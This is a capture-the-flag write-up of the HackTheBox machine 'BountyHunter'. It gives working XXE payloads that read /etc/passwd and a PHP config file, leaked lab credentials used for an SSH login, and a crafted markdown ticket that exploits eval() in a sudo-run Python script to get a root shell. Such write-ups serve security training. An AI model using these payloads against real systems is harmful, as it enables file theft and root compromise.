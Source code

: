 ![BOUNTYHUNTER](banner.png)

```
Nmap scan report for bountyhunter.htb (10.129.181.132)
Host is up (0.035s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## Foothold

So this machine got a nice webpage on port 80:

![welcome.png](welcome.png)

Quick enumeration gives us an interesting js file `bountylog.js` relating to a `tracker_diRbPr00f314.php` file dirbuster couldn't find:
```js
function returnSecret(data) {
    return Promise.resolve($.ajax({
            type: "POST",
            data: {"data":data},
            url: "tracker_diRbPr00f314.php"
            }));
}

async function bountySubmit() {
    try {
        var xml = `<?xml  version="1.0" encoding="ISO-8859-1"?>
        <bugreport>
        <title>${$('#exploitTitle').val()}</title>
        <cwe>${$('#cwe').val()}</cwe>
        <cvss>${$('#cvss').val()}</cvss>
        <reward>${$('#reward').val()}</reward>
        </bugreport>`
        let data = await returnSecret(btoa(xml));
          $("#return").html(data)
    }
    catch(error) {
        console.log('Error:', error);
    }
}
```
This tells us to set up an own request to manipulate the database playing with the parameter `data`:

![tracker_request.png](tracker_request.png)

The payload is the following base64-url-encoded:

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>

        <!DOCTYPE root [

        <!ENTITY c PUBLIC "bar" "/etc/passwd">]>
        <bugreport>
        <title>&c;</title>
        <cwe>DEF</cwe>
        <cvss>GHI</cvss>
        <reward>123</reward>
        </bugreport>
```
As answere we get:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```

## User

So we have arbitary file read, let's search for something interesting..
Dirbuster tells us there is a `db.php` returning HTML-Code 200. Let's have look at that one.
We can include it with this payload (url and base64 encoded again):

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>

        <!DOCTYPE root [

        <!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=./db.php">]>
        <bugreport>
        <title>&file;</title>
        <cwe></cwe>
        <cvss>GHI</cvss>
        <reward>123</reward>
        </bugreport>
```

The payload returns us this php in base64:
```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

With the `/etc/passwd` and the `db.php` we got the credentials `development:m19RoAU0hP41A1sTsq6K` to login via ssh as user.


## Root

In the homedirectory is a `contrat.txt`:

```txt
Hey team,

I'll be out of the office this week but please make sure that our contract with Skytrain Inc gets completed.

This has been our first job since the "rm -rf" incident and we can't mess this up. Whenever one of you gets on please have a look at the internal tool they sent over. There have been a handful of tickets submitted that have been failing validation and I need you to figure out why.

I set up the permissions for you to test this. Good luck.

-- John
```

`sudo -l` gives us:
```bash
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

So let's get a look at this `ticketValidator.py`:

```python
development@bountyhunter:~$ cat /opt/skytrain_inc/ticketValidator.py 
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

We are especially interested in this `eval()`-stuff:

```py
validationNumber = eval(x.replace("**", ""))
```

So rooting relays on relative path' because of that `.md` and exploiting that `eval()`-function.

The python code tells us to use a exploit like this with `**` and an `int([...])`:
```text
development@bountyhunter:~$ cat a.md
# Skytrain Inc
## Ticket to Destination
__Ticket Code:__ blablabla
**704+int(__import__('os').system('/bin/bash'))
```

Just set up a md like shown above and hit `sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py` to get a root shell.
